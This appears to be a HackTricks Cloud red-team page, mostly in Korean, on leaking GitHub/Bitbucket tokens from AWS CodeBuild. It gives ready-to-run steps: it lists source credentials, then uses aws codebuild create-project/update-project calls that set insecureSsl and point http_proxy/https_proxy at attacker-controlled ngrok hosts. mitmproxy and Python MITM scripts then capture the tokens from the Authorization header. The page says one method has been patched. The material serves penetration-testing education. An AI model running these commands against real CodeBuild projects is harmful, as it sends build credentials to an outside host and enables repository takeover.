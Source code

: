 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Recover Github/Bitbucket Configured Tokens

먼저, 유출할 수 있는 소스 자격 증명이 구성되어 있는지 확인하십시오:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

만약 계정에 Github에 대한 인증이 설정되어 있다면, Codebuild가 프로젝트 빌드를 실행하기 위해 **특정 도커 이미지를 사용하도록** 하여 **액세스** (**GH 토큰 또는 OAuth 토큰**)을 **유출**할 수 있습니다.

이를 위해 **새 Codebuild 프로젝트를 생성**하거나 기존 프로젝트의 **환경**을 변경하여 **Docker 이미지**를 설정할 수 있습니다.

사용할 수 있는 Docker 이미지는 [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)입니다. 이는 **env 변수 `https_proxy`**, **`http_proxy`** 및 **`SSL_CERT_FILE`**을 설정하는 매우 기본적인 Docker 이미지입니다. 이를 통해 **`https_proxy`** 및 **`http_proxy`**에 지정된 호스트의 대부분의 트래픽을 가로챌 수 있으며, **`SSL_CERT_FILE`**에 지정된 SSL CERT를 신뢰할 수 있습니다.

1. **자신의 Docker MitM 이미지를 생성 및 업로드**
* 리포지토리의 지침에 따라 프록시 IP 주소를 설정하고 SSL 인증서를 설정한 후 **도커 이미지를 빌드**합니다.
* 메타데이터 엔드포인트에 대한 요청을 가로채지 않도록 **`http_proxy`를 설정하지 마십시오**.
* **`ngrok`**을 사용하여 `ngrok tcp 4444`로 프록시를 호스트에 설정할 수 있습니다.
* Docker 이미지가 빌드되면, **공개 리포지토리에 업로드**합니다 (Dockerhub, ECR...).
2. **환경 설정**
* **새 Codebuild 프로젝트를 생성**하거나 기존 프로젝트의 환경을 **수정**합니다.
* 프로젝트가 **이전에 생성된 Docker 이미지를 사용하도록** 설정합니다.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **호스트에서 MitM 프록시 설정**

* **Github 리포지토리**에 명시된 대로 다음과 같은 것을 사용할 수 있습니다:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
사용된 **mitmproxy 버전은 9.0.1**이며, 버전 10에서는 작동하지 않을 수 있다고 보고되었습니다.
{% endhint %}

4. **빌드를 실행하고 자격 증명을 캡처합니다**

*   **Authorization** 헤더에서 토큰을 볼 수 있습니다:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

이것은 aws cli를 사용하여 다음과 같이 수행할 수도 있습니다.

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### Via insecureSSL

**Codebuild** 프로젝트에는 웹에서 숨겨져 있는 **`insecureSsl`**이라는 설정이 있으며, API를 통해서만 변경할 수 있습니다.\
이 설정을 활성화하면 Codebuild가 플랫폼에서 제공하는 **인증서를 확인하지 않고** 리포지토리에 연결할 수 있습니다.

* 먼저 다음과 같은 방법으로 현재 구성을 열거해야 합니다:
```bash
aws codebuild batch-get-projects --name <proj-name>
```
* 그러면 수집한 정보를 바탕으로 프로젝트 설정 **`insecureSsl`**을 **`True`**로 업데이트할 수 있습니다. 다음은 제가 프로젝트를 업데이트한 예시로, 끝에 **`insecureSsl=True`**가 있는 것을 주목하세요 (수집한 구성에서 변경해야 할 유일한 사항입니다).
* 또한 env 변수 **http\_proxy**와 **https\_proxy**를 tcp ngrok을 가리키도록 추가하세요: 

{% code overflow="wrap" %}
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
{% endcode %}

* 그런 다음, 프록시 변수(http\_proxy 및 https\_proxy)로 지정된 포트에서 [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm)의 기본 예제를 실행합니다.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 마지막으로 **Build the project**를 클릭하면 **자격 증명**이 **명확한 텍스트**(base64)로 mitm 포트로 **전송됩니다**:

<figure><img src="../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### ~~HTTP 프로토콜을 통해~~

{% hint style="success" %}
**이 취약점은 2023년 2월 20일 주 중에 AWS에 의해 수정되었습니다 (금요일인 것 같습니다). 따라서 공격자는 더 이상 이를 악용할 수 없습니다 :)**
{% endhint %}

**CodeBuild에서 권한이 상승된 공격자는 구성된 Github/Bitbucket 토큰을 유출할 수 있습니다**. 또는 권한이 OAuth를 통해 구성된 경우, **코드에 접근하는 데 사용되는 임시 OAuth 토큰**을 유출할 수 있습니다.

* 공격자는 **http\_proxy** 및 **https\_proxy** 환경 변수를 자신의 머신을 가리키도록 CodeBuild 프로젝트에 추가할 수 있습니다 (예: `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* 그런 다음, github repo의 URL을 HTTPS 대신 HTTP를 사용하도록 변경합니다. 예: `http://github.com/carlospolop-forks/TestActions`
* 그런 다음, 프록시 변수(http\_proxy 및 https\_proxy)가 가리키는 포트에서 [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm)의 기본 예제를 실행합니다.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 마지막으로 **Build the project**를 클릭하면 **credentials**가 mitm 포트로 **명확한 텍스트**(base64)로 **전송**됩니다:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
이제 공격자는 자신의 머신에서 토큰을 사용하여 모든 권한을 나열하고 CodeBuild 서비스를 직접 사용하는 것보다 더 쉽게 (남용)할 수 있습니다.
{% endhint %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
